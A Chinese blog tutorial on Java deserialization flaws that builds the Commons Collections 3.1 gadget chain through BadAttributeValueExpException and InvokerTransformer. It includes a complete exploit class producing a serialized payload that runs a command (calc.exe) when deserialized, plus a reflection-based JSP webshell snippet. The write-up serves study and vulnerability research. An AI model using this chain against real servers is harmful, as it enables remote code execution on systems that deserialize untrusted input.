








Java的反序列化漏洞可以说是Java Web里杀伤力很强的漏洞，因为反序列化经常被用在对象存储进Cookie的过程中，而这类漏洞被触发几乎都能造成RCE。笔者在学习研究该漏洞的过程中遇到了不少困惑，通过查阅资料与阅读源码，最终得出了答案。
背景知识 从概念上讲，序列化是将对象的状态信息转换成可存储或可传输的状态。在这个过程中，对象将其状态写入到临时或持久性存储区中。
通俗地讲，就是为了方便程序读写对象，而将它存储到网络套接字或文件中。序列化后的对象以某种特定格式存在。反序列化的过程则相反，将序列化后的数据重新整合成对象。
序列化 常见的主流编程语言都支持序列化与反序列化。这里以Java为例，这两个过程如下图：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 @AllArgsConstructor @Setter @Getter public class Test implements Serializable private String name; private int age; private File file; public void serialize (Object a) throws Exception ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file)); out.writeObject(a); out.close(); } public Object diserialize () throws Exception ObjectInputStream in = new ObjectInputStream(new FileInputStream(file)); Object a = in.readObject(); in.close(); return a; } }
用二进制文件编辑器（这里是hexedit）打开后，可以看到Test对象序列化后的结果。请注意开头的字符。

因为序列化对象在web中经常会被base64编码，我们用bash转换一下，并再次用文件编辑器打开观察。
1 cat temp.bin | base64 > haha.bin

观察发现，java序列化的数据一般会以标记（ac ed 00 05）开头，base64编码后的特征为（rO0AB），这个特征也是寻找反序列化漏洞的重要线索。
反射机制 在构造payload时java的反射机制被多次用到。因为本文的重点是反序列化漏洞，所以这里对反射机制的底层原理不表，只简介一下其用法。
反射机制 允许程序在运行态时获取一个类的所有属性和方法 ，也能调用一个对象的所有方法，还能修改其属性 。有了这种控制方式，代码就能在运行时装配，组件之间的源代码联系也会减弱，从而降低代码的耦合度。
Java反射机制的实现体现在Class类，这个类被用来描述其他Java类，它提供的一些方法可以帮助你获取特定类的属性和方法，还能对类进行实例化，从而调用和修改它的属性。Class类常用方法如下：
方法名
功能说明
static Class forName(String name)返回指定类名 name 的 Class 对象
Object newInstance()调用缺省构造函数，返回该Class对象的一个实例
Object newInstance(Object[] args)调用当前格式构造函数，返回该Class对象的一个实例
String getName()返回此Class对象所表示的实体（类、接口、数组类、基本类型或void）名称
Class getSuperClass()返回当前Class对象的父类的Class对象
Class[] getInterfaces()获取当前Class对象的接口
ClassLoader getClassLoader()返回该类的类加载器
Class getSuperclass()返回表示此Class所表示的实体的超类的Class
这里展示一个简单的JAVA类及其Class类的调用方法：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 import lombok.AllArgsConstructor;import lombok.Getter;import lombok.Setter;@Setter @Getter @AllArgsConstructor public class Person String name; private int age; public Person () this .name = "You!" ; this .age= 132 ; } private void sysy () system.out.println("i'm private" ); } } import org.junit.Test;import java.lang.reflect.Method;public class PersonTest @Test public void testMethod () throws Exception Person al = new Person("lilinfeng" ,26 ); Class clazz = al.getClass(); Method[] methods = clazz.getMethods(); for (Method method:methods){ System.out.print(" " +method.getName()); } System.out.println(); methods = clazz.getDeclaredMethods(); for (Method method:methods){ System.out.print(" " +method.getName()); } System.out.println(); Method method = clazz.getDeclaredMethod("setName" , String.class); System.out.println(" " +method); method = clazz.getDeclaredMethod("setAge" , int .class); System.out.println(" " +method); Object obje = clazz.newInstance(); method.invoke(obje,20 ); System.out.println(" Age modified during running: " +((Person)obje).getAge()); } }
运行测试代码后的结果如下：

利用反射方式我们可以改写经典的jsp一句话木马，执行后就可以看到计算器的弹出：
1 2 <% Runtime.getRuntime().exec("calc.exe" ); %>
1 2 3 4 5 6 7 8 9 10 11 12 13 public void cmd_exec () throws Exception String cmd ="calc.exe" ; Class ax = Class.forName("java.lang.Runtime" ); Method md =ax.getDeclaredMethod("getRuntime" ,new Class[]{}); Object tmp = md.invoke(null ); Class bx = Class.forName("java.lang.Runtime" ); Method mb = bx.getDeclaredMethod("exec" ,String.class); mb.invoke(tmp, cmd); }
利用思路 java的反序列化漏洞利用思路是构造一个恶意的类，其readObject()方法重写过且有被控制的点（前提是该类及所依赖的类均存在于服务器JVM的Classpath中）。我们将它序列化后的数据发送给服务端，就会触发后者执行我们预定的操作。
问题的关键在于服务端与客户端的classpath不同，如果我们构造的java类在服务端不存在，它将不会被正确解析。因此，我们必须从服务端常见的classpath下的类中寻找可能。
寻找攻击点 在实际的应用环境中，序列化对象通常出现在以下情景：
HTTP请求中的参数，cookies以及HTTP Parameters。
RMI协议，被广泛使用的RMI协议完全基于序列化。
JMX ，同样用于处理序列化对象。
自定义协议，如dubbo，用来接收与发送原始的java对象。
这些点都是黑盒环境下最应该注意的点。
构造Payload 在发现可能的攻击点后就需要构造payload了，如之前所说，它的利用条件 如下：
存在于服务端classpath目录下
该类的readObject方法被重载过，且该方法里存在可控制的点
利用反射机制强行修改该类实例的属性，使得恶意代码被注入
比如：ysoserial中用到的sun.reflect.annotation.AnnotationInvocationHandler类，它是InvocationHandler接口的实现类，内置于JDK的运行时环境中，而且它的成员变量map可被我们用反射技术特殊构造，该类在openjdk 8u60之后不再适用！！！
另一个被用到的类是javax.management.BadAttributeValueExpException，本文主要分析第二个类。
第一环节 看看BadAttributeValueExpException类的readObject()方法：

再利用Commons-collections 3.1下的几个类，我们可以构造一条奇特的反射链。简单说说Apache的org.commons.collections这个jar包，正如其名，它的主要目的是封装一些常用的容器类。其中，在实现一些容器类时重写了一些方法，使它们具有了别的特性。因为方便，所以使用广泛。
其中第一个有用的类是LazyMap，这个类的本来用途是在用户的Map试图get一个不存在的key时，执行一个方法来生成key的值并返回，源码中的提现如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 public class LazyMap extends AbstractMapDecorator implements Map , Serializable private static final long serialVersionUID = 7990956402564206740L ; protected final Transformer factory; public static Map decorate (Map map, Transformer factory) return new LazyMap(map, factory); } public Object get (Object key) if (!this .map.containsKey(key)) { Object value = this .factory.transform(key); this .map.put(key, value); return value; } else { return this .map.get(key); } } }
第二个有用的类是TiedMapEntry，它的本来用途是绑定一个Map到Map.entry，这里主要用到它的toString方法：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 public class TiedMapEntry implements Entry , KeyValue , Serializable private static final long serialVersionUID = -8453869361373831205L ; private final Map map; private final Object key; public TiedMapEntry (Map map, Object key) this .map = map; this .key = key; } public Object getKey () return this .key; } public Object getValue () return this .map.get(this .key); } public String toString () return this .getKey() + "=" + this .getValue(); } }
那这里的toString()中的getValue()实际就是this.map.get(this.key)了。很好，将上面两者组合一下，例如这样：
1 2 3 4 final Map lazyMap = LazyMap.decorate(new HashMap(), xxx);TiedMapEntry entry = new TiedMapEntry(lazyMap, "3345" ); System.out.println(entry);
在进行toString输出时会调用getValue方法，而lazyMap里并没有“3345”这个key，于是便调用了factory.transform()方法。我们再将BadAttributeValueExpException这个类引入进来，因为它里面有我们要的注入点：
1 2 3 4 5 6 BadAttributeValueExpException ve = new BadAttributeValueExpException(null ); Field field = ve.getClass().getDiclaredField("val" ); field.setAccessible(true ); field.set(ve, entry);
就像这样，当BadAttributeValueExpException的这个实例在做反序列化时，由于很多java程序默认不会设置SecurityManager，所以会进入第二个else if，从而调用TiedMapEntry.toString() --> TiedMapEntry.getValue() --> LazyMap.get(non-exist-key) --> Transformer.transform()，酱紫我们串起了调用链的前半环。
第二环节 上面串了那么多的调用，为的就是引入Transformer接口类。而与之相关的类还有以下几个：

这些类全都实现了抽象接口Transformer，该接口定义了transform方法来决定子类的行为，我们先直接贴出构造好的反射链：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 String commandstring = "calc.exe" ; Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer( "getMethod" , new Class[] {String.class, Class[].class}, new Object[] {"getRuntime" , new Class[0 ] } ), new InvokerTransformer( "invoke" , new Class[] {Object.class,Object[].class }, new Object[] {null , new Object[0 ] } ), new InvokerTransformer( "exec" , new Class[] {String[].class }, new Object[] { new String[] {commandstring} } ) }; Transformer transformedChain = new ChainedTransformer(transformers);
里面的几个Transformer存在A初始化B的关系，它们最终调用的都是自己的transform方法：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 public Object transform (Object object) for (int i = 0 ; i < this .iTransformers.length; ++i) { object = this .iTransformers[i].transform(object); } return object; } public Object transform (Object input) return this .iConstant; } public InvokerTransformer (String methodName, Class[] paramTypes, Object[] args) this .iMethodName = methodName; this .iParamTypes = paramTypes; this .iArgs = args; } public Object transform (Object input) if (input == null ) { return null ; } else { try { Class cls = input.getClass(); Method method = cls.getMethod(this .iMethodName, this .iParamTypes); return method.invoke(input, this .iArgs); } catch } }
这就是最激动人心之处，InvokerTransformer的transform方法竟然是一个写好的反射版代码执行Snippet ，我们只需对着构造函数填入参数即可。
最后，总结一下上述的payload构造过程。它的调用堆栈如下图：

完整版的漏洞利用代码和演示结果：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import javax.management.BadAttributeValueExpException;import java.io.File;import java.io.FileOutputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.HashMap;import java.util.Map;public class Exploit public static void main (String[] args) throws Exception String commandstring = "calc.exe" ; Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer( "getMethod" , new Class[] {String.class, Class[].class}, new Object[] {"getRuntime" , new Class[0 ] } ), new InvokerTransformer( "invoke" , new Class[] {Object.class,Object[].class }, new Object[] {null , new Object[0 ] } ), new InvokerTransformer( "exec" , new Class[] {String[].class }, new Object[] { new String[] {commandstring} } ) }; Transformer transformedChain = new ChainedTransformer(transformers); final Map lazyMap = LazyMap.decorate(new HashMap(), transformedChain); TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo" ); BadAttributeValueExpException val = new BadAttributeValueExpException(null ); Field valfield = val.getClass().getDeclaredField("val" ); valfield.setAccessible(true ); valfield.set(val, entry); File f = new File("temp.bin" ); ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f)); out.writeObject(val); out.flush(); out.close(); } }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import lombok.Data;import org.junit.Test;import java.io.File;import java.io.FileInputStream;import java.io.ObjectInputStream;public class ExploitTest @Data class AnyClass private String name; private int age; } @Test public void testExploit () throws Exception ObjectInputStream is = new ObjectInputStream(new FileInputStream(new File("temp.bin" ))); AnyClass clazz = (AnyClass) is.readObject(); } }

就像测试代码里写的那样，服务端本来是想反序列化一个AnyClass对象（编译器提示的ClassCastException），但实际上却造成了RCE。
工具的利用 构造Java反序列化漏洞Payload的方式不止一种，例如用com.sun.org.apache.xalan包中的TemplatesImpl 类构造上一节描述的第二环节，用PriorityQueue、Hashset等类构造第一环节。相关的研究成果已经被frohoff 整理成了工具ysoserial ，它所支持生成的Payload如下:

工具的用法和说明直接浏览其github，这里不表。
方法论 挖掘Java反序列化漏洞的步骤大致如下（没错，这段是抄来的）：
(1)确定反序列化输入点
首先应找出readObject方法调用，在找到之后进行下一步的注入操作。一般可以通过以下方法进行查找：
源码审计：寻找可以利用的“靶点”，即确定调用反序列化函数readObject的调用地点。
对该应用进行网络行为抓包，寻找序列化数据，如wireshark、tcpdump等
注： java序列化的数据一般会以标记（ac ed 00 05）开头，base64编码后的特征为rO0AB。
(2)再考察应用的Class Path中是否包含Apache Commons Collections库
(3)生成反序列化的payload
(4)提交我们的payload数据
防护思路 针对开发者，提出以下建议（5555 这段也是抄的）：
参考文章 https://xz.aliyun.com/t/136
https://www.freebuf.com/vuls/188569.html
https://www.freebuf.com/vuls/170344.html
https://www.cnblogs.com/LittleHann/p/4961817.html?utm_source=tuicool&utm_medium=referral